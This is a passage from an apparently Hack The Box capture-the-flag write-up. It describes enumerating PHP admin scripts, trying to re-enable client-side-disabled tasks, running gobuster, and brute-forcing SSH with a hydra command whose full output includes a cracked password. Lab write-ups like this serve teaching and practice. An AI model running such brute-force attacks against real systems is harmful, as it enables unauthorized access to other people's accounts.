 ![80 PHPInfo](screenshots/80_phpinfo.png)

The `phptest.php` file was a simple script to test if PHP was running. The `admin_tasks.php` file seemed to be used to run a few administration tasks. Since some tasks were disabled client-side, I enabled them, but kept getting " Insufficient privileges to perform the selected operation.". Tried a couple of things to exploit this script, but it didn't seem possible based on the source code. Finally, the `db_admin.php` file returned a 404 error, which seemed kind of strange that it was missing when all the others existed. I ran a `gobuster` on the endpoint to try to find if the script name was changed to something else, or if there were any other files but had no luck.

At this point seemed like there was nothing else to gain from the files hosted on the FTP server, so attempted a brute force attack against the SSH service. I constructed a `user.txt` and `pass.txt` file from the credentials discovered so far, and set up a `hydra` command.

```none
└─$ hydra -L files/user.txt -P files/pass.txt 10.10.10.187 -t 4 ssh   
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-09-19 13:02:11
[DATA] max 4 tasks per 1 server, overall 4 tasks, 60 login tries (l:15/p:4), ~15 tries per task
[DATA] attacking ssh://10.10.10.187:22/
[22][ssh] host: 10.10.10.187   login: ftpuser   password: %n?4Wz}R$tTF7
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-09-19 13:02:48
```

Success? Nope! Found one valid password combination for the `ftpuser`, but we cannot get access as that user doesn't seem to have a shell.
